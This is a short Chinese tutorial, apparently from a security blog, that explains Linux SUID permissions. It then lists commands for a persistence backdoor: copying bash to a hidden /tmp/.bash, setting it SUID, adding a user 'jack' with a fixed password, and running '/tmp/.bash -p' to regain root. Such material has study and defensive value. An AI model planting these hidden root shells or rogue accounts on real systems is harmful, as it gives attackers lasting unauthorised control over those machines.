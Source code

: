 # **SUID**介绍                                          [ ](af://n3)

SUID是一种特殊权限， 设置了suid的程序文件， 在用户执行该程序时， 用户的权限是该程序文件属主的权限， 例如 程序文件的属主是root， 那么执行该程序的用户就将暂时获得root账户的权限。sgid与suid类似， 只是执行程序时 获得的是文件属组的权限。 passwd这个命令程序的权限设置， 它就是设置了suid权限的

![img](https://img.gyxnb.top/img/clip_image001-168396076560850.jpg)

注意以下几点：

1. 只有可以执行的二进制程序文件才能设定SUID权限,非二进制文件设置SUID权限没任何意义.
2. 命令执行者要对该程序文件拥有执行(x)权限.
3. 命令执行者在执行该程序时获得该程序文件属主的身份.
4. SUID权限只在该程序执行过程中有效,也就是说身份改变只在程序执行过程中有效

# **SUID**维持                                          [ ](af://n23)

## 1、找到bash文件

```
whereis bash
```

![img](https://img.gyxnb.top/img/clip_image003.gif)

因为我是centos所以在`/usr/bin/bash`

## 2、复制到普通用户环境能接触的文件夹

```
cp /bin/bash /tmp/.bash
```

![img](https://img.gyxnb.top/img/clip_image004.jpg)

## 3、设置权限

```
chmod 4755 /tmp/.bash 后者 chmod +s /tmp/.bash
```

![img](https://img.gyxnb.top/img/clip_image005-168396076560951.jpg)

## 4、创建一个普通用户jack

```
 useradd -p `openssl passwd  -1 -salt 'salt '  123456` jack  
```

![img](https://img.gyxnb.top/img/clip_image006-168396076560952.jpg)

## 5、使用jack用户登录

![img](https://img.gyxnb.top/img/clip_image007-168396076560953.jpg)

### 6、运行/tmp/.bash

```
/tmp/.bash -p  
```

![img](https://img.gyxnb.top/img/clip_image009-168396076560954.gif)